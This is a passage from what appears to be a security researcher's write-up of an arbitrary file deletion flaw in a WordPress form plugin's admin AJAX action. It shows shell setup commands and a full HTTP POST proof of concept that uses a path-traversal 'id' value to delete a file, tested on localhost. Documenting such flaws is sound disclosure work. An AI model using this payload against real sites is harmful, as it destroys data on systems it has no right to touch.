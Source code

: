 ```php
      $status = $formHandler->admin->deleteAForm($_REQUEST, $input);
      [...]
    } else {
      [...]
    }
  }
```

Again, we can delete any files in the file system using the source `formID`, as there's no sanitization in the `formID` whatsoever.

Let's test this file deletion vulnerability one last time!

Create a test file:

```shell
root@9e2f4f189063:/var/www/html# echo -n 'test' > test.txt
root@9e2f4f189063:/var/www/html# chown www-data:www-data test.txt
root@9e2f4f189063:/var/www/html# ls -lah test.txt 
-rw-r--r-- 1 www-data www-data 4 Aug 22 11:43 test.txt
```

Send the following POST request:

```http
POST /wp-admin/admin-ajax.php?action=bitforms_delete_aform&_ajax_nonce=56951b1f2d HTTP/1.1
Host: localhost
Content-Type: text/plain;charset=UTF-8
Content-Length: 75
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7C2ed64b58bd1e6545e080831efa73208d7cd7a7d7db74f82d917bf1d084221f56; wp-settings-time-1=1724314921; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7Cc3ff3cd5203d9aa8bd10333b517737a257f01a675a5701cfae83a2855c027d65; PHPSESSID=btmj60280414pvpn1970aan8n7

{"id":"../../../../../../../../../../../../../var/www/html/test.txt"}
```

> Note: This time the parameter is `id` instead of `formID`.
